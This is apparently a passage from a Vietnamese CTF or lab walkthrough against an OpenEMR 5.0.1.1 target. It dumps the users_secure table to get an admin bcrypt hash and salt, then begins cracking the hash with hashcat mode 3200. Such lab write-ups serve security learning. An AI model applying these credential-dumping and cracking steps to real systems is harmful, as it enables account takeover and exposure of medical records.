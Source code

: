 Các bảng thú vị nhất là `version` và `users_secure`. Bảng sau chứa tên người dùng và mật khẩu băm cho người dùng hệ thống.

Hãy kiểm tra phiên bản OpenEMR nào đang chạy trên mục tiêu.

```
MariaDB [openemr]> select * from version;
+---------+---------+---------+-------------+-------+------------+-------+
| v_major | v_minor | v_patch | v_realpatch | v_tag | v_database | v_acl |
+---------+---------+---------+-------------+-------+------------+-------+
|       5 |       0 |       1 |           1 |       |        253 |     8 |
+---------+---------+---------+-------------+-------+------------+-------+
1 row in set (0.031 sec)
```

Đang sử dụng phiên bản 5.0.1.1 của phần mềm này. Dump bảng `users_secure`.

```
MariaDB [openemr]> select * from users_secure;
+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+
| id | username | password                                                     | salt                           | last_update         | password_history1 | salt_history1 | password_history2 | salt_history2 |
+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+
|  1 | admin    | $2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMAkLgkK8XnC | $2a$05$bJcIfCBjN5Fuh0K9qfoe0n$ | 2021-05-17 10:56:27 | NULL              | NULL          | NULL              | NULL          |
+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+
1 row in set (0.034 sec)

MariaDB [openemr]> quit
Bye
                                         
┌──(kali㉿kali)-[~]
└─$
```

Tìm thấy một người dùng `admin` duy nhất có mật khẩu đã băm trong bảng này.

### Password Cracking

Tiếp theo, hãy thử crack mật khẩu đã băm của người dùng này bằng `hashcat`. Nó trông giống như băm `bcrypt`. Tìm chế độ để sử dụng cho cuộc tấn công này.

```
┌──(kali㉿kali)-[~]
└─$ hashcat --help | grep bcrypt
   3200 | bcrypt $2*$, Blowfish (Unix)                     | Operating System
```

